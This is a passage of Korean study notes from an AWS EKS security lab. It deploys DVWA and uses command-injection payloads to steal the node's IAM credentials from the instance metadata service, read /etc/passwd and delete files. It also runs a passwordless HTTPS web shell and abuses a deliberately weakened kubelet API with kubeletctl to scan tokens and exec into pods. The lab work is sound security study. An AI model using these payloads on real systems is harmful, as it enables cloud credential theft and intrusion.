kubectl apply -f mysql.yaml

# DVWA 배포
cat <<EOT > dvwa.yaml
apiVersion: v1
kind: ConfigMap
metadata:
  name: dvwa-config
data:
  RECAPTCHA_PRIV_KEY: ""
  RECAPTCHA_PUB_KEY: ""
  SECURITY_LEVEL: "low"
  PHPIDS_ENABLED: "0"
  PHPIDS_VERBOSE: "1"
  PHP_DISPLAY_ERRORS: "1"
---
apiVersion: v1
kind: Service
metadata:
  name: dvwa-web-service
spec:
  selector:
    app: dvwa-web
  type: ClusterIP
  ports:
    - protocol: TCP
      port: 80
      targetPort: 80
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: dvwa-web
spec:
  replicas: 1
  selector:
    matchLabels:
      app: dvwa-web
  template:
    metadata:
      labels:
        app: dvwa-web
    spec:
      containers:
        - name: dvwa
          image: cytopia/dvwa:php-8.1
          ports:
            - containerPort: 80
          resources:
            requests:
              cpu: "0.3"
              memory: 256Mi
            limits:
              cpu: "0.3"
              memory: 256Mi
          env:
            - name: RECAPTCHA_PRIV_KEY
              valueFrom:
                configMapKeyRef:
                  name: dvwa-config
                  key: RECAPTCHA_PRIV_KEY
            - name: RECAPTCHA_PUB_KEY
              valueFrom:
                configMapKeyRef:
                  name: dvwa-config
                  key: RECAPTCHA_PUB_KEY
            - name: SECURITY_LEVEL
              valueFrom:
                configMapKeyRef:
                  name: dvwa-config
                  key: SECURITY_LEVEL
            - name: PHPIDS_ENABLED
              valueFrom:
                configMapKeyRef:
                  name: dvwa-config
                  key: PHPIDS_ENABLED
            - name: PHPIDS_VERBOSE
              valueFrom:
                configMapKeyRef:
                  name: dvwa-config
                  key: PHPIDS_VERBOSE
            - name: PHP_DISPLAY_ERRORS
              valueFrom:
                configMapKeyRef:
                  name: dvwa-config
                  key: PHP_DISPLAY_ERRORS
            - name: MYSQL_HOSTNAME
              value: dvwa-mysql-service
            - name: MYSQL_DATABASE
              valueFrom:
                secretKeyRef:
                  name: dvwa-secrets
                  key: DVWA_DATABASE
            - name: MYSQL_USERNAME
              valueFrom:
                secretKeyRef:
                  name: dvwa-secrets
                  key: DVWA_USERNAME
            - name: MYSQL_PASSWORD
              valueFrom:
                secretKeyRef:
                  name: dvwa-secrets
                  key: DVWA_PASSWORD
EOT
kubectl apply -f dvwa.yaml

# ingress 배포
cat <<EOT > dvwa-ingress.yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  annotations:
    alb.ingress.kubernetes.io/certificate-arn: $CERT_ARN
    alb.ingress.kubernetes.io/group.name: study
    alb.ingress.kubernetes.io/listen-ports: '[{"HTTPS":443}, {"HTTP":80}]'
    alb.ingress.kubernetes.io/load-balancer-name: myeks-ingress-alb
    alb.ingress.kubernetes.io/scheme: internet-facing
    alb.ingress.kubernetes.io/ssl-redirect: "443"
    alb.ingress.kubernetes.io/success-codes: 200-399
    alb.ingress.kubernetes.io/target-type: ip
  name: ingress-dvwa
spec:
  ingressClassName: alb
  rules:
  - host: dvwa.$MyDomain
    http:
      paths:
      - backend:
          service:
            name: dvwa-web-service
            port:
              number: 80
        path: /
        pathType: Prefix
EOT
kubectl apply -f dvwa-ingress.yaml
echo -e "DVWA Web https://dvwa.$MyDomain"
```

- 웹 접속 admin / password -> DB 구성을 위해 클릭 (재로그인) -> admin / password
- Command Injection 메뉴에서 아래의 명령 실행

```bash
# 명령 실행 가능 확인
8.8.8.8 ; echo ; hostname
8.8.8.8 ; echo ; whoami

# IMDSv2 토큰 확인 후 복사
8.8.8.8 ; curl -s -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"

# EC2 Instance Profile (IAM Role) 이름 확인
8.8.8.8 ; curl -s -H "X-aws-ec2-metadata-token: {IMDSv2 토큰}" –v http://169.254.169.254/latest/meta-data/iam/security-credentials/
eksctl-myeks-nodegroup-ng1-NodeInstanceRole-1H30SEASKL5M1

# EC2 Instance Profile (IAM Role) 자격증명탈취 성공
8.8.8.8 ; curl -s -H "X-aws-ec2-metadata-token: {IMDSv2 토큰}" –v http://169.254.169.254/latest/meta-data/iam/security-credentials/eksctl-myeks-nodegroup-ng1-NodeInstanceRole-1H30SEASKL5M1

# 그외 다양한 명령 실행 가능
8.8.8.8; cat /etc/passwd
8.8.8.8; rm -rf /tmp/*
```








### 5-2. 실습2: Web OpenSSH 컨테이너

- HTTPS 동작이라 보안장비가 검출하기 어려움
- 다만, 해당 이미지는 alpine 기반에, apk repo를 main에서만 끌어올 수 있게 세팅
  - 해당 환경에서 kubectl로 취약점 공격할 수가 없어서 curl로 host에 던져보기만 하고 종료

```bash
## myeks-bastion-2에서 실행

# Download docker image
docker pull ghostplant/webshell

# 미리 접속할 주소 출력
echo -e "WebOpenSSH https://$(curl -s ipinfo.io/ip):8443/"

# 새로운 쉘(옵션1)
# [암호X] Run service over HTTPS, no password:
docker run -it --rm --net=host -e LISTEN="8443 ssl" ghostplant/webshell

# 새로운 쉘(옵션2)
# [암호O] Run service over HTTPS, with password:
docker run -it --rm --net=host -e LISTEN="8443 ssl" -e ACCOUNT="admin:badmin" ghostplant/webshell
```

- 웹 접속 후, 정보 확인

```bash
# 정보 확인
hostname
whoami
ip addr
mount
export
top
```

### 5-3. Kubelet 미흡한 인증/인가 설정 시 위험

- 두 개의 bastion을 번갈아가며 진행
- 가장 마지막에 둔 이유: 기존 kubeconfig 소실
  - 실습 종료 후 cloudfomation stack 삭제 시 VPC, EIP를 중심으로 완전 삭제가 되지 않아서 일일히 웹콘솔에서 삭제해야함

- [my-eks-bastion]

```bash
# 노드의 kubelet API 인증과 인가 관련 정보 확인
ssh ec2-user@$N1 cat /etc/kubernetes/kubelet/kubelet-config.json | jq
ssh ec2-user@$N1 cat /var/lib/kubelet/kubeconfig | yh

# 노드의 kubelet 사용 포트 확인 
ssh ec2-user@$N1 sudo ss -tnlp | grep kubelet

# 데모를 위해 awscli 파드 생성
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: myawscli
spec:
  #serviceAccountName: my-sa
  containers:
    - name: my-aws-cli
      image: amazon/aws-cli:latest
      command: ['sleep', '36000']
  restartPolicy: Never
EOF

# 파드 사용
kubectl exec -it myawscli -- aws sts get-caller-identity --query Arn
kubectl exec -it myawscli -- aws s3 ls
kubectl exec -it myawscli -- aws ec2 describe-instances --region ap-northeast-2 --output table --no-cli-pager
kubectl exec -it myawscli -- aws ec2 describe-vpcs --region ap-northeast-2 --output table --no-cli-pager
```



- [my-eks-bastion-2]

```bash
# 기존 kubeconfig 삭제
rm -rf ~/.kube

# 다운로드
curl -LO https://github.com/cyberark/kubeletctl/releases/download/v1.9/kubeletctl_linux_amd64 && chmod a+x ./kubeletctl_linux_amd64 && mv ./kubeletctl_linux_amd64 /usr/local/bin/kubeletctl
kubeletctl version
kubeletctl help

# 노드1 IP 변수 지정
# my-eks-bastion에 저장했던 $N1 확인하여 변수 지정
N1=192.168.1.151

# 노드1 IP로 Scan
kubeletctl scan --cidr $N1/32

# 노드1에 kubelet API 호출 시도: Unauthorized
curl -k https://$N1:10250/pods; echo
```

- [myeks-bastion] → 노드1 접속 : kubelet-config.json 수정
  - authentication.anonymous.enabled: false -> **true**
  - authorization.mode: "Webhook" -> **"AlwaysAllow"**

```bash
# 노드1 접속
ssh ec2-user@$N1

# 미흡한 인증/인가 설정으로 변경: 위의 json 수정내용 참조
vi /etc/kubernetes/kubelet/kubelet-config.json

# kubelet restart
systemctl restart kubelet
systemctl status kubelet
```



- [myeks-bastion-2] kubelet 사용

```bash
# 파드 목록 확인
curl -s -k https://$N1:10250/pods | jq

# kubelet-config.json 설정 내용 확인
curl -k https://$N1:10250/configz | jq

# kubeletct 사용
# Return kubelet's configuration
kubeletctl -s $N1 configz | jq

# Get list of pods on the node
kubeletctl -s $N1 pods 

# Scans for nodes with opened kubelet API > Scans for for all the tokens in a given Node
kubeletctl -s $N1 scan token

# kubelet API로 명령 실행 : <네임스페이스> / <파드명> / <컨테이너명>
curl -k https://$N1:10250/run/default/myawscli/my-aws-cli -d "cmd=aws --version"

# remote code execution이 가능한 containers 조회
kubeletctl -s $N1 scan rce

# Run commands inside a container
kubeletctl -s $N1 exec "/bin/bash" -n default -p myawscli -c my-aws-cli

# 내부 쉘에서 아래 실행
export
aws --version
aws ec2 describe-vpcs --region ap-northeast-2 --output table --no-cli-pager
exit

# Return resource usage metrics (such as container CPU, memory usage, etc.)
kubeletctl -s $N1 metrics
```



## 6. 실습 못해본 것

- 파드/컨테이너 보안 컨텍스트
  - LB Controller IRSA 덕분에, 나중에 실습해야 함 (To-Do)
